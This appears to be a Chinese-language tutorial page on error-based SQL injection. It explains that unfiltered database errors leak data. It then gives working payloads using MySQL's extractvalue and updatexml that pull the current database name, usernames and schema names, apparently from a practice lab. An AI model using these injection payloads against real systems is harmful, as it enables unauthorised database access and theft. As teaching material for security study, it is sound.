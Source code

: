 ### 报错注入
#### 原理

由于后台没有对数据库的报错信息做过滤，会输入到前台显示，那么我们可以利用制造报错函数（常用的如**extractvalue、updatexml**等函数来显示出报错的信息输出）

**extractvalue函数**

```sql
语法：ExtractValue(target, xpath)

target：包含XML数据的列或XML文档 
xpath：XPath 表达式，指定要提取的数据路径。

eg:
#获取当前数据库
Dumb' and extractvalue(1,concat("~~",database(),"~~")) #

注意：当database()要换成sql查询语句时，使用括号
Dumb' and extractvalue(1,concat("~~",(select group_concat(username) 
from users),"~~")) #

#获取所有数据库 通过substr()函数控制输出
Dumb' and extractvalue(1,substr(concat("~~",(select 
group_concat(schema_name) 
from information_schema.schemata),"~~"),1,30)) #
```
**updatexml函数**

```sql
语法：updateXML(target, xpath, new_value)

target：要更新的 XML 数据列或 XML 文档。
xpath：指定要更新的 XML 元素的 XPath 表达式。
new_value：新的值，将替代匹配的 XML 元素的内容。

eg:
Dumb' and updateXML(1,concat("~~",database(),"~~"),3) #
```
